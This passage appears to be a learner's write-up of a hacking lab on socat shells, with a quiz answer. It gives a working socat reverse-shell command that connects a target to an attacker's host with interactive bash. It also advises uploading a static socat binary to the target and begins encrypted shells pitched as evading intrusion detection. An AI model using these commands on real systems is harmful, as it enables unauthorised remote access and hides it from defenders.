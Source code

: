 
The first normal socat listener can be connected to with any payload; however, this special socat listener must be activated with a very specific socat command.

```
socat TCP:<attacker-ip>:<attacker-port> EXEC:"bash -li",pty,stderr,sigint,setsid,sane
```

#### NOTE:
For this command to work, ***socat*** must be installed on the target machine. However, it's possible to upload a [precompiled socat binary](https://github.com/andrew-d/static-binaries/blob/master/binaries/linux/x86_64/socat?raw=true), which can then be executed as normal.


Lets break the above mentioned command:

The first part is easy.
The second part of the command creates an interactive bash session with  `EXEC:"bash -li"`. We're also passing the arguments: `pty`, `stderr`, `sigint`, `setsid` and `sane`:


	- **pty**, allocates a pseudoterminal on the target -- part of the stabilisation process

	- **stderr**, makes sure that any error messages get shown in the shell (often a problem with non-interactive shells)

	- **sigint**, passes any Ctrl + C commands through into the sub-process, allowing us to kill commands inside the shell

	- **setsid**, creates the process in a new session
	- **sane**, stabilises the terminal, attempting to "normalise" it.

Note that the socat shell is fully interactive, allowing us to use interactive commands such as SSH. This can then be further improved by setting the stty values as seen in the previous task, which will let us use text editors such as Vim or Nano.
---------------------------------------------------------------------------------

If, at any point, a socat shell is not working correctly, it's well worth increasing the verbosity by adding `-d -d` into the command. This is very useful for experimental purposes, but is not usually necessary for general use.


1. How would we get socat to listen on TCP port 8080?

--> tcp-l:8080


Task 7  Socat Encrypted Shells
-------------------------------

One of the many great things about socat is that it's capable of creating encrypted shells -- both bind and reverse.

Encrypted shells cannot be spied on unless you have the decryption key, and are often able to _bypass an IDS_ as a result.


We first need to generate a certificate in order to use encrypted shells. This is easiest to do on our attacking machine:

```
openssl req --newkey rsa:2048 -nodes -keyout shell.key -x509 -days 362 -out shell.crt
```
> This command creates a 2048 bit RSA key with matching cert file, self-signed, and valid for just under a year. 
